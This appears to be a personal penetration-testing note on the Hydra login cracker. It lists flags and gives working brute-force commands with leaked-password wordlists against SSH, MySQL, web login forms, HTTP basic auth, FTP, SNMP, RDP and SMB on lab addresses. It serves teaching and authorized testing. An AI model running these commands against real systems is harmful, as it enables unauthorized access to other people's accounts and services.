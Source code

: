 Hydra is **a parallelized login cracker which supports numerous protocols to attack**. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely.

Use `seclists/Usernames/Names/names.txt` for *username enumeration*.

---
### Usage
```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.2.19:22 -t 4 -V -e snr
```

*-l : Login Name
-L : Login Names Text File
-P : Passwords Text File
-M : Bruteforce IP Addresses
-s : Specify port Number (Default is taken if not mentioned)
-t : Number Of Threads, Used To Parellely Request For Connections (Default: 16, Max: 64)
-f : Stop Bruteforce After A Successfull Login Attempt
-6 : Use IPv6![[Pasted image 20230101210733.png]]
-o : Output To A File
-V : Enable Verbosity*
*-m : Module Options*
![[Pasted image 20221105123746.png]]
*-e : Login Options*
![[Pasted image 20221105125028.png]]
![[Pasted image 20221105125157.png]]
```sh
hydra -l msfadmin -P pass.txt 192.168.29.229 -V -e nsr ssh
```
You Can Also Do This Using [[msfconsole]] By Selecting **ssh login scanner auxillary**
While random bruteforcing, you can use `-e` *without* `-P`


---
# Bruteforce MySQL
```sh
hydra mysql://[IP] -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt
```
![[Pasted image 20230101203935.png]]

---
# Bruteforce Login Pages
You Need These Things :-
- **IP Address**
- **HTTP Request : POST or GET**
- **From Inspect Element**
	- *Username ID
	- *Password ID*
	- *Login Button* (For "Log In" : `Log+In`)
	- *Login Failed String (Can Be Just <u>One Of The Words</u>)*
![[Pasted image 20230101210608.png]]


```sh
# For HTTP
hydra -l otis -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 192.168.1.103 http-post-form "/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -F -t 40

# For HTTPS
hydra -l otis -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -s 443 192.168.1.103 https-post-form "/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -F -t 40
```

```sh
# Use Cookies while brute-forcing a page
hydra 192.168.1.150 -l admin -P pass.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie:PHPSESSID=13f2650bddf7a9ef68858ceea03c5d; security=low"
```

![[Pasted image 20230101231744.png]]
##### Important
If Response doesn't generate any *failed string*, use [[Website Hacking/Tools/Burp Suite/Basics]]!


## Bruteforce Basic Authorization

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.1.1 http-get / -t 40
```

---
# Using Combo Entries
```sh
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.1.141 ftp
```

![[Pasted image 20231128145330.png]]


---
# Bruteforce SNMP
#snmphydra
```sh
hydra -P /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt snmp://192.168.2.19 -t 30 -V
```

Use the above wordlist or **common-snmp-community-strings-onesixtyone.txt** (Shorter wordlist)
This is will give us the *community string name*.

---
# Bruteforce RDP
```sh
hydra -l Jareth -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt rdp://192.168.1.101 -f -V
```

---
# Bruteforce SMB
```sh
hydra -l Jareth -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt smb://192.168.1.101 -f
```